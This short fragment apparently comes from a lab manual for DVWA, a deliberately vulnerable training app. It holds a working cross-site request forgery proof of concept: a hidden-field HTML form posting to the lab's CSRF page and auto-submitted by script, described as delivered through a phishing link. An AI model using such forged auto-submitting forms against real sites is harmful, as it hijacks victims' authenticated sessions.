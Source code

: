 # Manual

TODO: Demonstrate how to leverage a phishing link with HTML file to input the parameters.

```html
<html>
  <body>
    <form action="http://dvwa.local/dvwa/vulnerabilities/csrf/" method="post">
      <input type="hidden" name="parameter" value="<sending_data>" />
      <input type="submit" value="submitbtn" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```